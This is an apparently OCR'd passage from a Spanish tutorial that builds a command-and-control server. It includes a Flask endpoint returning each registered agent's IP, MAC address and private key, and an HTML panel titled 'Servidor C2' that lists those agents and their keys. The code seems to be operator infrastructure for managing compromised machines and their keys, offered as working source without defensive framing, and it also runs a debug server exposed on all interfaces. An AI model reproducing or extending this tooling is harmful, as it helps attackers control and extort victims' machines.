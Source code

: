 ```python
def get_agent_info(agent_ip):
    # Verificar si el agente está registrado
    if agent_ip not in agents_data:
        return jsonify({'error': 'Agente no encontrado'}), 404

    agent_info = agents_data[agent_ip]
    return jsonify({
        'ip': agent_ip,
        'mac': agent_info['mac'],
        'private_key': agent_info['private_key']
    })

if __name__ == '__main__':
    app.run(debug=True, host="0.0.0.0", port=5000)
```

### **HTML para la Interfaz Gráfica** (Tabla de Agentes)

El archivo HTML mostrará una tabla con los agentes registrados en el servidor. Este archivo se debe guardar como `templates/index.html`.

#### `templates/index.html`

```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Servidor C2 - Agentes Registrados</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
</head>
<body>
    <div class="container mt-5">
        <h2>Agentes Registrados</h2>
        <table class="table table-bordered">
            <thead>
                <tr>
                    <th>IP</th>
                    <th>MAC</th>
                    <th>Clave Privada</th>
                </tr>
            </thead>
            <tbody>
                {% for ip, agent in agents.items() %}
                    <tr>
                        <td>{{ ip }}</td>
                        <td>{{ agent.mac }}</td>
                        <td><pre>{{ agent.private_key }}</pre></td>
                    </tr>
                {% endfor %}
            </tbody>
        </table>
    </div>
</body>
</html>
```

